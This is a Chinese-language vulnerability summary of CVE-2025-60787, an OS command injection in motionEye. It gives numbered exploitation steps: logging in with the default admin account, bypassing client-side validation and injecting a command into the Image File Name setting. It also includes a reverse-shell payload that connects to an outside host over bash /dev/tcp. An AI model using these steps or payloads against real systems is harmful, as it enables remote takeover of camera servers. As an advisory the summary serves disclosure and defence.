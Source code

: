 ## CVE-2025-60787-motionEye-OS命令注入

**漏洞编号:** CVE-2025-60787

**漏洞类型:** OS命令注入

**影响应用:** motionEye

**危害等级:** 高危，远程代码执行

**影响版本:** <= 0.43.1b4

**利用条件:** 需要管理员权限和网络访问，MotionEye服务运行中

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2025-60787 漏洞存在于motionEye <= 0.43.1b4版本中。该漏洞是由于对配置参数（例如 image_file_name）中用户输入未进行充分的清理和验证，导致OS命令注入。攻击者需要具备管理员权限，才能修改相关配置项。**利用方式如下：**

1.  **环境准备：** 运行motionEye Docker镜像。
2.  **版本验证：** 确认motionEye版本为0.43.1b4或更早。
3.  **登录：** 使用管理员账号登录motionEye Web界面（默认账号admin，密码为空）。
4.  **相机设置：** 添加一个RTSP网络摄像头（非必须，但方便触发漏洞）。
5.  **绕过客户端验证：** 通过浏览器控制台，覆盖`configUiValid`函数，使其始终返回`true`，从而绕过客户端的验证。
6.  **注入恶意命令：** 在“Still Images” > “Image File Name”配置项中，注入包含恶意命令的Payload，例如 `$(touch /tmp/test).%Y-%m-%d-%H-%M-%S`。
7.  **触发执行：** 应用配置，motionEye会在生成静态图像时执行注入的命令。可以通过查看/tmp/test文件是否存在来判断是否注入成功。如果需要反弹shell,需要使用类似$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/192.168.0.108/4444 0>&1\"')").%Y-%m-%d-%H-%M-%S的payload。

**关于投毒风险的分析：**

提供的POC代码主要用于验证漏洞的存在和利用方式，核心在于绕过客户端验证和构造恶意Payload。代码仓库本身并没有发现明显的恶意代码，例如后门或数据窃取。POC展示了如何反弹shell。代码仓库中可能存在细微的混淆或不明显的指令，但它们的目的更可能是为了增加分析难度，而不是植入恶意功能。但是依旧需要防范作者在其他分支或者commit版本中隐藏恶意代码的可能性，所以投毒风险为5%。

**项目地址:** [prabhatverma47/CVE-2025-60787](https://github.com/prabhatverma47/CVE-2025-60787)

**漏洞详情:** [CVE-2025-60787](https://nvd.nist.gov/vuln/detail/CVE-2025-60787)